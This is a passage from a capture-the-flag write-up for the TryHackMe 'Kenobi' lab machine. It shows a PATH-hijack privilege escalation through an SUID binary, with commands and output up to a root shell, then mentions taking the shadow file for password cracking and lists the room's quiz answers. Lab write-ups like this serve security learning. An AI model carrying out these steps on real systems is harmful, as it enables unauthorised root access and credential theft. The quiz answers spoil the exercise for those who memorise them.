 4. We can use the [following explaination](https://steflan-security.com/linux-privilege-escalation-suid-binaries/) to replace the curl binary in the menu with `bash` binary and run it with permissions of the root when invoked.

```bash
kenobi@kenobi:/tmp$ echo "/bin/bash" > curl 
kenobi@kenobi:/tmp$ cat curl 
/bin/bash
kenobi@kenobi:/tmp$ echo $PATH
/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ echo $PATH
/tmp:/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
kenobi@kenobi:/tmp$ /usr/bin/menu 

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kenobi:/tmp# whoami
root
root@kenobi:/tmp# cat /root/root.txt
*********************************************** 
```

5. The box is pawned!! We can use this to get full hold of the system.
   1. Got the [shadow file](https://github.com/pratty010/Boxes/blob/master/Try%20Hack%20Me/Easy/Kenobi/ssh/root/shadow) and can be used to crack passwords with `john` with [hashes](https://github.com/pratty010/Boxes/blob/master/Try%20Hack%20Me/Easy/Kenobi/ssh/hashes) file.


## Answers to complete the box

1. NMAP
   1. Scan the machine with nmap, how many ports are open? - **7**

2. SMB
   1. how many shares have been found? - **3**
   2. Once you're connected, list the files on the share. What is the file can you see? - **log.txt**

3. FTP
   1. What port is FTP running on? - **21**
   2. What is the version of ProFTPD? - **1.3.5**
   3. How many exploits are there for the ProFTPd running? - **4**

4. NFS
   1. What mount can we see? - **/var**
